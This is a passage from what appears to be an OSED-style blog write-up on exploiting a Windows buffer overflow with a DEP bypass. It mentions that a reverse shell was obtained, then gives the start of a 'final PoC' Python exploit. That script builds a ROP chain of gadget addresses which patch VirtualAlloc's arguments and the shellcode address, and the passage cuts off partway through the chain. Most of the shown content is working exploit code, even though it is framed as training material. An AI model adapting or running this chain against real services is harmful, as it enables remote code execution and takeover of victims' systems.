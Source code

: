 And here we have the reverse shell!

![](https://0x4rt3mis.github.io/assets/img/osed/2023-01-31-Buffer%20Overflow-DEP/2023-01-31-Buffer%20Overflow-DEP%2001:38:57.png)

Here we have the final PoC!

```py
# 0x4rt3mis
# DEP Bypass
import socket
import sys
from struct import pack

total = 2500

def create_rop_chain():
        rop_gadgets = [
                ##############
                # -> Make ESP equal to ECX (-20)
                ##############
                ## Copy ESP to EBX, and put -20 in ESI
                0x6aaf2fd3, # push esp; pop ebx; pop esi; ret;
                0xffffffe0, # - 20 in ESI
                ## Put EBX (ESP) to ECX
                0x61b460d0,  # xchg eax, ebx; ret;
                0x68be726b,  # xchg eax, ecx; ret;
                ## Put -20 to EBP
                0x68aef542,  # xchg eax, esi; ret; 
                0x6d9c5993,  # xchg eax, ebp; ret; 
                ## ADD EBP on ECX, make 20 bytes before
                0x6d9c8e42,  # add ecx, ebp; ret; 

                ##############
                # -> Patch VirtualAlloc API Base Address (0x45454545
                ##############
                ## Put VirtualAlloc address on EAX and make it a Pointer
                0x6ab00efd,  # pop eax; ret; 
                0x690398A0,  # VirtualAlloc	KERNEL32
                0x61bb8cb3,  # mov eax, dword ptr [eax]; ret;
                ## Write-where EAX in ECX as a dword (pointer)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;

                ##############
                # -> Patch Return Address and Shellcode Address (0x46464646 and 0x47474747)
                ##############
                ## Increment ECX in 4 bytes, to align the stack
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
                ## Copy ECX to EAX
                0x6ab445f9,  # mov eax, ecx; ret;
                ## PUT -320 on EDX
                0x61e30fe3,  # pop edx; ret;
                0xfffffce0,  # -320
                ## -320 become 320
                0x6eb47012,  # neg edx; ret;
                ## Increase EAX in 320
                0x6ab00690,  # add eax, edx; ret;
                ## Write this address on ECX (0x46464646)
                0x6d9cb59c,  # mov dword ptr [ecx], eax; ret;
                ## Increase 4 bytes in ECX
                0x68aca037,  # inc ecx; ret;
                0x68aca037,  # inc ecx; ret;
```